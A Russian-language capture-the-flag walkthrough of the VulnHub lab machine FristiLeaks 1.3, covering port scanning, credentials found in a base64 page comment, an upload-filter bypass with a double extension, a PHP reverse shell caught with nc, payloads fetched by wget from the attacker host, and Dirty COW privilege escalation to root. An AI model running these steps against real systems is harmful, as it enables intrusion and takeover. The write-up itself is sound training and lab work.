









# VulnHub - Lin Basic - FristiLeaks_1.3

📅 Дата: 2025-07-22  
🧠 Сложность: Basic  
💻 IP-адрес: 192.168.56.128  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -Pn --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=192.168.56.128 && nmap_ctf $ip
```

### nmap  

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|media device|webcam
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (97%), Synology DiskStation Manager 5.X (89%), LG embedded (88%), Tandberg embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/a:synology:diskstation_manager:5.2
Aggressive OS guesses: Linux 2.6.32 - 3.10 (97%), Linux 2.6.32 - 3.13 (97%), Linux 2.6.39 (94%), Linux 2.6.32 - 3.5 (92%), Linux 3.2 - 3.16 (91%), Linux 3.2 - 3.8 (91%), Linux 3.2 - 4.9 (91%), Linux 3.2 (90%), Linux 2.6.32 (90%), Linux 2.6.38 - 3.0 (90%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.026 days (since Mon Jul 21 23:56:39 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=250 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.95 ms 192.168.56.128
```


---

## 🕵️ Enumeration

По ендпоинтам, указанным в `robots.txt` только изображение
```bash
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
```

Скачиваю его и смотрю информацию  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Basic - FristiLeaks_1.3/exploits]
└─$ wget http://192.168.56.128/images/3037440.jpg -O img.jpg

┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Basic - FristiLeaks_1.3/exploits]
└─$ exiftool img.jpg                                          
ExifTool Version Number         : 12.76
File Name                       : img.jpg
Directory                       : .
File Size                       : 108 kB
File Modification Date/Time     : 2015:11:25 03:50:53-05:00
File Access Date/Time           : 2025:07:22 00:40:16-04:00
File Inode Change Date/Time     : 2025:07:22 00:39:30-04:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 96
Y Resolution                    : 96
Image Width                     : 400
Image Height                    : 400
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 400x400
Megapixels                      : 0.160
```

### Сохраняю имена с главной страницы в файл
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Basic - FristiLeaks_1.3/exploits]
└─$ cat names.txt 
meneer
barrebas
rikvduijn
wez3forsec
PyroBatNL
0xDUDE
annejanbrouwer
Sander2121
Reinierk
DearCharles
miamat
MisterXE
BasB
Dwight
Egeltje
pdersjant
tcp130x10
spierenburg
ielmatani
renepieters
Mystery guest
EQ_uinix
WhatSecurity
mramsmeets
Ar0xA
```

### Endpoint `/fristi/`
Пока брутил директории, вручную наткнулся на страницу авторизации  
```
http://192.168.56.128/fristi/
```

Есть подсказки в исходном коде


Добавляю ещё одно имя
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Basic - FristiLeaks_1.3/exploits]
└─$ echo "eezeepz" >> names.txt
```

В конце страницы закомментированный код base64, пробую создать `` на странице, чтобы его посмотреть

```html

```

Похоже на пароль

```
keKkeKKeKKeKkEkkEk
```

В итоге не пришлось брутить, сразу вошел по кредам `eezeepz:keKkeKKeKKeKkEkkEk`


## 📂 Получение доступа

Попробовал загрузить изображение `gomer.gif`  


Перехожу в `/uploads`  
  

Пробую по имени обратиться  
  

Ок, значит при загрузке файлов имена не меняются и доступны по прямой ссылке.
Пробую загрузить реверс шелл php и получаю ошибку
```
Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded
```

Обошел добавив `.gif` к названию файла


Другой вариант не сработал  


По первому варианту получаю реверс шелл по url `http://192.168.56.128/fristi/uploads/php-reverse-shell.php.gif` и улучшаю его  
```bash
┌──(kali㉿0x2d-pentest)-[~]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.128] 43446
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 02:27:55 up  2:36,  0 users,  load average: 7.68, 7.04, 7.88
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ export TERM=xterm
bash-4.1$ ^Z
zsh: suspended  nc -lvnp 5555
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 5555
                               export TERM=xterm
bash-4.1$ pwd
/
bash-4.1$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.1$ 
```


## ⚙️ Привилегии

Поднимаю сервер
```bash
┌──(kali㉿0x2d-pentest)-[~/Downloads]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

Загружаю `linpeas`
```bash
bash-4.1$ sudo -l
[sudo] password for apache: 
Sorry, try again.

bash-4.1$ cd /tmp
bash-4.1$ wget http://192.168.56.106:8888/linpeas.sh
bash-4.1$ chmod +x ./linpeas.sh
bash-4.1$ ./linpeas.sh
```

### System
```bash
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                               
                               ╚═══════════════════╝                                                              
OS: Linux version 2.6.32-573.8.1.el6.x86_64 (mockbuild@c6b8.bsys.dev.centos.org) (gcc version 4.4.7 20120313 (Red Hat 4.4.7-16) (GCC) ) #1 SMP Tue Nov 10 18:01:38 UTC 2015
User & Groups: uid=48(apache) gid=48(apache) groups=48(apache)
Hostname: localhost.localdomain
```

### Users
```bash
╔══════════╣ Users with console
admin:x:501:501::/home/admin:/bin/bash                                                                            
eezeepz:x:500:500::/home/eezeepz:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

### Soft
```bash
                             ╔══════════════════════╗
═════════════════════════════╣ Software Information ╠═════════════════════════════                                
                             ╚══════════════════════╝                                                             
╔══════════╣ Useful software
/usr/bin/base64                                                                                                   
/usr/bin/curl
/usr/bin/gcc
/usr/bin/lua
/usr/bin/make
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.6
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Installed Compilers
gcc.x86_64                          4.4.7-16.el6                           @base                                  
/usr/bin/gcc
```

### SUID
```bash
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                
                      ╚════════════════════════════════════╝                                                      
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                   
strace Not Found                                                                                                  
-rwsr-xr-x. 1 root root 76K Oct 15  2014 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                                                                                            
-rwsr-x---. 1 root fuse 28K Dec  7  2011 /bin/fusermount
-rwsr-xr-x. 1 root root 53K Oct 15  2014 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x. 1 root root 35K Nov 10  2015 /bin/su
-rwsr-xr-x. 1 root root 38K Jul 23  2015 /bin/ping
-rwsr-xr-x. 1 root root 36K Jul 23  2015 /bin/ping6
-rwsr-xr-x. 1 root root 11K Aug 18  2015 /sbin/pam_timestamp_check
-rwsr-xr-x. 1 root root 35K Aug 18  2015 /sbin/unix_chkpwd
-rwsr-xr-x. 1 root root 51K Nov 10  2015 /usr/bin/crontab
-rws--x--x. 1 root root 20K Oct 15  2014 /usr/bin/chsh
---s--x--x. 1 root root 121K Aug 13  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rws--x--x. 1 root root 20K Oct 15  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x. 1 root root 36K Apr  7  2015 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x. 1 root root 65K Apr  7  2015 /usr/bin/chage
-rwsr-xr-x. 1 root root 70K Apr  7  2015 /usr/bin/gpasswd
-rwsr-xr-x. 1 root root 31K Feb 22  2012 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                             
-rwsr-xr-x. 1 root root 252K Aug 13  2015 /usr/libexec/openssh/ssh-keysign
-rws--x--x. 1 root root 14K Sep 22  2015 /usr/libexec/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
-r-s--x---. 1 root apache 14K Aug 24  2015 /usr/sbin/suexec
-rwsr-xr-x. 1 root root 8.8K Nov 10  2015 /usr/sbin/usernetctl
```

Загружаю **Dirty Cow** exploit
  

Загружаю на жертву, компилирую и запускаю с параметром **admin** для пароля  
```bash
bash-4.1$ wget http://192.168.56.106:8888/cow.c        
bash-4.1$ gcc -pthread cow.c -o dirty -lcrypt
bash-4.1$ ./dirty admin
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: admin
Complete line:
firefart:fikF6I.XwWM36:0:0:pwned:/root:/bin/bash

mmap: 7ff8733aa000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'admin'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Получаю **root**  
```bash
bash-4.1$ su firefart
Password: 
[firefart@localhost tmp]# id
uid=0(firefart) gid=0(root) groups=0(root)
[firefart@localhost tmp]# cd /root
[firefart@localhost ~]# ls -la
total 48
dr-xr-x---.  3 firefart root 4096 Nov 25  2015 .
dr-xr-xr-x. 22 firefart root 4096 Jul 21 23:51 ..
-rw-------   1 firefart root 1936 Nov 25  2015 .bash_history
-rw-r--r--.  1 firefart root   18 May 20  2009 .bash_logout
-rw-r--r--.  1 firefart root  176 May 20  2009 .bash_profile
-rw-r--r--.  1 firefart root  176 Sep 22  2004 .bashrc
drwxr-xr-x.  3 firefart root 4096 Nov 25  2015 .c
-rw-r--r--.  1 firefart root  100 Sep 22  2004 .cshrc
-rw-------.  1 firefart root 1291 Nov 17  2015 .mysql_history
-rw-r--r--.  1 firefart root  129 Dec  3  2004 .tcshrc
-rw-------.  1 firefart root  829 Nov 17  2015 .viminfo
-rw-------.  1 firefart root  246 Nov 17  2015 fristileaks_secrets.txt
[firefart@localhost ~]# cat fristileaks_secrets.txt 
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```


## 🏁 Флаги

- User flag: 
- Root flag: Y0u_kn0w_y0u_l0ve_fr1st1
 

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Directory Traversal  
  - RCE через уязвимый скрипт  

🛡 **Советы по защите:**
  - Использовать сложные пароли и ограничить число попыток входа
  - Обновлять ПО до актуальных версий
  - Удалять/ограничивать использование SUID-бинарников
  - Настроить логирование и мониторинг системных событий
  - Применять принцип наименьших привилегий


